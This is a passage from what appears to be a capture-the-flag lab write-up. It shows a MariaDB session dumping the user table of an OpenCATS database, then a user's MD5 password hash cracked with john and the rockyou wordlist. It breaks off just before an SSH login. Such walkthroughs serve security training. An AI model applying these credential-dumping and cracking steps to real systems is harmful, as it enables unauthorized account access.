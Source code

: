 +--------------------+
| information_schema |
| opencats           |
+--------------------+
2 rows in set (0.324 sec)

MariaDB [(none)]> use opencats;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [opencats]> show tables;
+--------------------------------------+
| Tables_in_opencats                   |
+--------------------------------------+
# etc
| system                               |
| tag                                  |
| user                                 |
| user_login                           |
# more etc
+--------------------------------------+
54 rows in set (0.324 sec)

MariaDB [opencats]> select * from user;
# etc
{% endhighlight %}

From this we get a hash for *george* which we can crack with john:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/empline]
└─# john hash -w=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
DO_IT_YOURSELF (?)
1g 0:00:00:00 DONE (2021-09-17 18:46) 4.000g/s 18146Kp/s 18146Kc/s 18146KC/s pretty,1..pretender5
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

And now we can SSH in:
